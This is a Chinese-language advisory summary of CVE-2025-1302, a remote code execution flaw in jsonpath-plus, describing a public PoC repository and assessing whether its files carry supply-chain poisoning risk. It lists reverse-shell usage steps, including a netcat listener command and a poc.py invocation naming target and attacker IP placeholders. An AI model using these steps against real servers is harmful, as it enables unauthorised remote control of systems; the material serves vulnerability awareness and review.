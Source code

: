 ## CVE-2025-1302 jsonpath-plus RCE

**漏洞编号:** CVE-2025-1302

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** jsonpath-plus

**危害等级:** 严重，可能导致完全控制受影响的系统

**影响版本:** < 10.3.0

**利用条件:** 需要能够向运行jsonpath-plus的服务器发送POST请求

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-1302存在于jsonpath-plus 10.3.0之前的版本中。由于不正确的输入清理，该漏洞允许远程代码执行。攻击者可以利用`eval='safe'`模式的不安全默认用法在受影响的系统上执行任意代码。  

**利用方式：**

1.  **安装环境：** 需要Node.js, Python和Netcat.
2.  **启动服务器：** 运行提供的server.js启动一个易受攻击的Express服务器，该服务器监听端口3000，并接受`/query`路径上的POST请求，请求体是JSON格式，其中包含需要执行的JSONPath表达式。
3.  **启动监听器：** 在攻击者机器上，启动一个netcat监听器，例如`nc -lvnp 4444`，用于接收反向shell。
4.  **运行PoC：** 使用提供的Python脚本`poc.py`，指定目标URL、攻击者IP地址和端口。例如：`python3 poc.py --url http://<TARGET_IP>:3000/query --ip <ATTACKER_IP> --port 4444`。
    *   `--url`:  目标服务器上/query端点的URL。
    *   `--ip`: 攻击者机器的IP地址。
    *   `--port`: 攻击者机器上Netcat监听的端口。
5.  **成功利用：** 成功后，攻击者将在Netcat监听器上收到一个反向shell，从而允许在目标服务器上执行任意代码。

**投毒风险分析：**

提供的PoC代码主要由以下几个部分组成：

*   **`server.js`**:  这是一个简单的Express服务器，用于模拟存在漏洞的环境。它本身不太可能包含恶意代码，因为它的目的是重现漏洞。
*   **`poc.py`**:  这是一个Python脚本，用于发送利用漏洞的请求。主要风险在于它是否会执行任何超出利用漏洞范围的操作。代码中包含请求,发送恶意的JSONPath filter,从而触发RCE,本身是漏洞验证代码。
*   **`package.json`**:  该文件指定了服务器的依赖项，并强制使用了存在漏洞的`jsonpath-plus`版本。没有直接的投毒风险，但如果攻击者可以修改此文件并安装恶意依赖项，则可能存在间接风险。

总体而言，直接的投毒风险较低，但需要仔细审查`poc.py`脚本，确保它只执行预期的漏洞利用操作。间接风险在于攻击者可能通过其他方式（例如，供应链攻击）引入恶意依赖项。

**项目地址:** [abrewer251/CVE-2025-1302_jsonpath-plus_RCE](https://github.com/abrewer251/CVE-2025-1302_jsonpath-plus_RCE)

**漏洞详情:** [CVE-2025-1302](https://nvd.nist.gov/vuln/detail/CVE-2025-1302)